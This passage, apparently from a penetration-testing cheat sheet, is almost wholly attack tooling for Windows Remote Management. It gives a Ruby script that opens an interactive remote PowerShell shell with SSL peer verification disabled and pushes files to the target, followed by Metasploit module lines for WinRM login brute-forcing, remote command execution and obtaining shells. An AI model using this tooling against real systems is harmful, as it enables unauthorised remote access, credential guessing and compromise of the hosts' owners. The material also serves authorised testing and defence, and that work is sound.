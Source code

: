 ```ruby
  :no_ssl_peer_verification => true
)


class String
  def tokenize
    self.
      split(/\s(?=(?:[^'"]|'[^']*'|"[^"]*")*$)/).
      select {|s| not s.empty? }.
      map {|s| s.gsub(/(^ +)|( +$)|(^["']+)|(["']+$)/,'')}
  end
end


command=""
file_manager = WinRM::FS::FileManager.new(conn)


conn.shell(:powershell) do |shell|
    until command == "exit\n" do
        output = shell.run("-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')")
        print(output.output.chomp)
        command = gets
        if command.start_with?('UPLOAD') then
            upload_command = command.tokenize
            print("Uploading " + upload_command[1] + " to " + upload_command[2])
            file_manager.upload(upload_command[1], upload_command[2]) do |bytes_copied, total_bytes, local_path, remote_path|
                puts("#{bytes_copied} bytes of #{total_bytes} bytes copied")
            end
            command = "echo `nOK`n"
        end
        output = shell.run(command) do |stdout, stderr|
            STDOUT.print(stdout)
            STDERR.print(stderr)
        end
    end
    puts("Exiting with code #{output.exitcode}")
end
```

```
#Msf
msf > use auxiliary/scanner/winrm/winrm_login
    #Bruteforce
msf > use auxiliary/scanner/winrm/winrm_login
    #Running Commands
msf > use auxiliary/scanner/winrm/winrm_cmd
    #Getting Shells!
msf > use exploit/windows/winrm/winrm_script_exec

```
